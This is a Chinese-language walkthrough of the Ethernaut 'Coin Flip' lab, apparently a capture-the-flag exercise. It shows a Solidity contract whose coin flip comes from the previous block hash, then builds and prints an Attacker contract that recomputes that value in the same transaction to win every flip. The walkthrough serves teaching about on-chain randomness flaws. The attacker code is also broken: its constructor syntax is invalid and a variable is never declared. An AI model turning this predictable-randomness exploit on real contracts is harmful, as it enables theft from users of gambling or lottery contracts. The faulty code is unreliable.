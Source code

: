 # Coin Flip

Coin Flip这一关揭露的是在EVM环境下的随机数攻击。这一关的攻击思路是通过了解合约是如何生成随机数，利用同样的机制来“预测”将会产生的情况，以此来达到作弊的效果。 让我们先来看这一关的代码。

## 合约代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
``` 

## 代码分析
合约代码的总体来说思路就是当flip成功时，就会将consecutiveWins加1，当flip失败时，就会将consecutiveWins置0。这样的话，当consecutiveWins达到10时，我们就可以上交实例完成这一关的挑战。根据`flip`函数，我们可以知道，`blockValue`的结果是由当前区块数-1的hash值来决定的,并且将其转换为uint256。之后利用`blockValue`整数除以`FACTOR`来获得是否为1，当`coinflip`为1时，那么`side = true`，否则`side = false`. 再将猜测的boolean值和`side`进行对比，看是否猜测成功。

那么进攻的思路就很简单的了。因为我们已经了解了随机数生成的办法是根据当前区块数，只要我外部预测的区块数与投掷硬币时的区块数一致，那么我们就成功预测，而达到这个目的，我们需要将这两件事放在同一个transaction中，那么他们的区块数一定是相同的。

首先我们可以在同文件中定义一个合约，叫做Attacker,设定我们的目标合约是CoinFlip

```
contract Attacker {
  
  CoinFlip private immutable target;
  constructor(){
    target = CoinFlip(address _target);
  }

}
```

接下来我们需要定义一个函数，将一个boolean值作为我们猜测的值，这里注意的是我们还需要保证传入的值在使用`target.flip()`时的返回值永远为true。
```
contract Attacker {
  
  CoinFlip private immutable target;
  constructor(){
    target = CoinFlip(address _target);
  }

  function flip() external {
    guess = _guess(); // 预先假设是一个_guess函数返回的值
    require(target.flip(guess), "flip failed");
  } 

}
```
最后我们需要确定_guess()函数的返回值是什么，那么就根据原合约代码中的思路复写一下就好。

```
contract Attacker {

  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  
  CoinFlip private immutable target;
  constructor(){
    target = CoinFlip(address _target);
  }

  function flip() external {
    guess = _guess(); // 预先假设是一个_guess函数返回的值
    require(target.flip(guess), "flip failed");
  } 

  function _guess() private view returns (bool){
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    return side;
  }
}
```
让我们来一下最后的攻击代码

## 攻击代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attacker {

  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  
  CoinFlip private immutable target;
  constructor(){
    target = CoinFlip(address _target);
  }

  function flip() external {
    guess = _guess(); // 预先假设是一个_guess函数返回的值
    require(target.flip(guess), "flip failed");
  } 

  function _guess() private view returns (bool){
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    return side;
  }
}

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

## 攻击过程
1. 部署合约，部署是target为CoinFlip合约的地址
2. 调用Attacker.flip() 10次。